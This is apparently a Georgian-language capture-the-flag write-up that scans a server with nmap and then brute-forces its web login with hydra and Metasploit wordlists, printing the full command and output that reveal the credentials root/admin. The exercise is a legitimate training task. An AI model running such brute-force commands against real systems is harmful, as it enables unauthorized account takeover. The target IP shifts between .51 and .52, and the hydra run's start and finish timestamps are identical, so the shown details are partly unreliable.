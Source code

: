 ## მოცემულია GNU/Linux სერვერი. თქვენი მიზანია მოიპოვოთ წვდომა სერვერზე და მოიპოვოთ ე.წ. "flag"-ი.

1. nmap-ის გამოყენებით ვნახოთ რომელი პორტებია სერვერზე გახსნილი:
    ```bash
    nmap 185.212.254.51
    ```
    Output:
    ```bash
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 09:35 EDT
    Nmap scan report for 185.212.254.51
    Host is up (0.021s latency).
    Not shown: 999 closed ports
    PORT     STATE SERVICE
    8080/tcp open  http-proxy

    Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
    ```
    როგორც ვხედავთ 8080 პორტი გახსნილია და http-proxy არის გაშვებული

2. გავხსნათ ბრაუზერი და შევიდეთ ამ IP:PORT-ზე. URL-ში ჩავწეროთ “185.212.254.51:8080“.
    შესვლისას დაგვხვდება ასეთი ფეიჯი  
    ![index.png](.images/index.png)

3. ფეიჯის inspect-მა საინტერესო არაფერი გვანახა, ამიტომ შევეცადოთ bruteforce-ით გადავუაროთ და შევეცადოთ გავტეხოთ user/pass.

    ამისთვის გამოვიყენებთ hydra-ს.

    ```bash
    hydra -L <USER_FILE> -P <PASS_FILE> <HOST> -s <PORT> http-post-form "<PATH>:<BODY>:<ERR_MSG>" -V 

    Flags:
      -L Usernames ფაილის მითითება
      -P Passwords ფაილის მითითება
      -s პორტის მითითება
      -V (Verbos mode) გამოიტანს ყველა მცდელობას
      -f შეწყვეტს ძებნას პირველივე სწორი აუთენთიფიკაციისთანავე

    Variables:
      <USER_FILE> - ფაილი, საიდანაც წაიკIთხავს იუზერნეიმების სიას
      <PASS_FILE> - ფაილი, საიდანაც წაიკIთხავს პაროლების სიას
      <HOST> - IP მისამართი, რომელიც უნდა გავტეხოთ
      <PORT> - პორტი რომელზეც არის კონკრეტული სერვისი გაშვებული
      <PATH> - საიტზე იმ ფაილის მისამართი, სადაც ხდება აუთენთიფიკაცია
      <BODY> - პარამეტრები, რომლებიც გადაეცემა დალოგინებისას
      <ERR_MSG> - წარუმატებელი დალოგინებისას გამოტანილი მესიჯი
    ```

    * **USER_FILE** - გამოვიყენოთ metasploit-ის მიერ წინასწარ შედგენილი wordlist იუზერნეიმებისთვი, მოთავსებულია utils/metasploit ფოლდერში სახელად `unix_users.txt` (Kali-ის მომხმარებლებმა შეგიძლია მიუთითოთ შემდეგი ფაილი: /usr/share/wordlists/metasploit/unix_users.txt)
    * **PASS_FILE** - გამოვიყენოთ metasploit-ის მიერ წინასწარ შედგენილი wordlist იუზერნეიმებისთვი, მოთავსებულია utils/metasploit ფოლდერში სახელად `unix_passwords.txt` (Kali-ის მომხმარებლებმა შეგიძლია მიუთითოთ შემდეგი ფაილი: /usr/share/wordlists/metasploit/unix_passwords.txt) 
    * **HOST** - IP მისამართი რომელზეც სერვერია გაშვებული, ჩემს შემთხვევაში `185.212.254.51`
    * **PORT** - როგორც პირველ პუნქტში ვნახეთ სერვერი გაშვებულია `8080` პორტზე
    * **PATH** - დასალოგინებლად უნდა შევიდეთ შემდეგ მისამართზე 185.212.254.52:8080/login ანუ ფაილის მისამართია `/login`
    * **BODY** - ამ პარამეტრების ნახვა შეგვიძლია network ტაბის გამოყენებით.
      * გავხსნათ Inspect ბრაუზერში და გადავიდეთ Network ტაბზე. 
      * ჩავწეროთ რენდომ იუზერნეიმ/პაროლი მაგალითად: test_user/test_pass
      * Network-ში ჩამონათვალში მოვნიშნოთ ის სტრიქონი, სადაც ფაილი არის login
      * ვნახოთ გაგზავნილი payload:
        * Chrome: Headers -> Form Data -> view Source
        * Firefox: Headers -> Edit and Resend -> Request Body
        * სხვა ბრაუზერებისთვის სხვანაირად იქნება და თქვენ იცით არ შერცხვეთ.

        შედეგი: '''username=test_user&password=test_pass&login-submit=Log+In'''
        Hydra-ს უნდა მივუთითოთ თუ სად უნდა ჩაწეროს username/password, ამისთვის იყენებენ ორ keywords: ^USER^ და ^PASS^.
        ჩვენს შემთხვაში test_user-ის მაგივრად უნდა ჩავწეროთ ^USER^, ხოლო test_pass-ის მაგივრად ^PASS^.
        საბოლოოდ ვიღებთ: `"username=^USER^&password=^PASS^&login-submit=LogIn"`
      ![body.png](.images/body.png)

    * **ERR_MSG** - დავლოგინდეთ რენდომ იუზერნეიმითა და პაროლით. ფეიჯზე გაჩნდება შემდეგი მესიჯი `Invalid Username/Password`

    ახლა კი ავაწყოთ მთლიანი ბრძანება:
    ```bash
      hydra -L unix_users.txt \
            -P unix_passwords.txt \
            185.212.254.52 \
            -s 8080 \
            http-post-form "/login:username=^USER^&password=^PASS^&login-submit=LogIn:Invalid Username/Password" \
            -V\
            -f
    ```
4. გავუშვათ წინა პუნქტში აწყობილი ბრძანება, hydra ცდის ყველა შესაძლო user/pass კომბინაციას, ჩემს შემთხვევაში ის 160'00ზე მეტია, ამიტომ ცოტახანი ლოდინი მოგვიწევს:
    Output:
    ```bash
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-24 15:02:30
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 169512 login tries (l:1/p:169512), ~64 tries per task
    [DATA] attacking http-post-form://185.212.254.52:8080/login:username=^USER^&password=^PASS^&login-submit=LogIn:Invalid Username/Password
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "admin" - 1 of 169512 [child 0] (0/0)
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "123456" - 2 of 169512 [child 1] (0/0)
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "12345" - 3 of 169512 [child 2] (0/0)
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "123456789" - 4 of 169512 [child 3] (0/0)
    ...
    ...
    ...
    [ATTEMPT] target 185.212.254.52 - login "root" - pass "admin" - 54867 of 169512 [child 0] (0/0)
    [8080][http-post-form] host: 185.212.254.52   login: root   password: admin
    [STATUS] attack finished for 185.212.254.52 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-24 15:02:30
    ```
    როგორც ვხედავთ hydra-მ დაასრულა ძებნა და იპოვა შემდეგი წყვილი
    ```
    Username: root
    Password: admin
    ```
    პ.ს. -f ფლეგის გარეშე თუ ცდით ნახავთ, რომ სხვა წყვილებიც არსებობს, კონკრეტულად კი ყველა ისეთი წყვილი, რომელშიც user არის root

